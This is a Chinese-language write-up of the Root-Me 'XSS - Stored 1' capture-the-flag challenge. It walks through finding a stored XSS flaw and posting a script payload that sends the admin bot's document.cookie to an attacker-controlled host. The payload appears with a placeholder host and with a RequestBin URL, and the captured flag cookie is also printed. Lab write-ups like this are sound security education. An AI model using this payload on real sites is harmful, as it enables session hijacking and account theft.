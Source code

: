 ## [[Root-Me](https://www.root-me.org/)] [[Cracking](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2922/)]

------

已经很直白提示是存储型 XSS 题型。

页面需要提交一个表单，在 Message 区测试注入一个 html 代码 `<img src=0 />`，提交后发现直接作为图片元素渲染。

![](http://exp-blog.com/wp-content/uploads/2019/01/43a015747645978f753bfad075713162.png)

打开浏览器的开发者工具查看，不难发现 Cookie 并没有标注 `HttpOnly` 属性，说明可以利用 `document.cookie` 发起 XSS 攻击。

多刷新几次页面，发现这台靶机后台有个机器人线程在定时读取我们提交的消息，当读取之后，该消息会被删掉，此时页面底部会提示 `Your messages have been read` 。

而我们要做的就是把 XSS 的 payloads 消息存储到后台，当机器人读取到这条消息时，就会把这个机器人的 Cookie 发送到我们的指定的一台服务器，实现 Cookie 窃取。

假设我们已经搭建了一台服务器 `${HOST}` ，那么可以在 Message 区构造一个这样的 payloads ：

`exp:<script>document.write("<img src=${HOST}?tk="+document.cookie+" />");</script>`

（注：此 payloads 建议直接在页面提交，若使用 Burp Suite 提交注意需要先把 `+` 编码成 `%2B` ，否则会导致服务器报错收不到消息）

![](http://exp-blog.com/wp-content/uploads/2019/01/5a92b5f080e48c015052423cb1054cc5.png)

提交 payloads 消息后，就登录到 `${HOST}` 服务器守株待兔即可 (大概需要等5分钟)，只要机器人读取了这条消息，就能收到其 Cookie 。

对于这个 `${HOST}` 服务器，推荐使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器。例如你生成的 HTTP 服务的临时 URL 为 `http://requestbin.fullcontact.com/qnwgrmqn`，则把 payloads 修改为：

`exp:<script>document.write("<img src=http://requestbin.fullcontact.com/qnwgrmqn?tk="+document.cookie+" />");</script>`

当然你也可以选择自己实现一个 HTTP 服务器，但是必须有公网 IP。

![](http://exp-blog.com/wp-content/uploads/2019/01/41d1e1b7fc5375712a24987dc4c95044.png)

最终收到的 Cookie 为：`ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6`，其值就是 flag，完成挑战。


![](http://exp-blog.com/wp-content/uploads/2019/01/888d7862b49ef095959ecf916b5fd29d.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
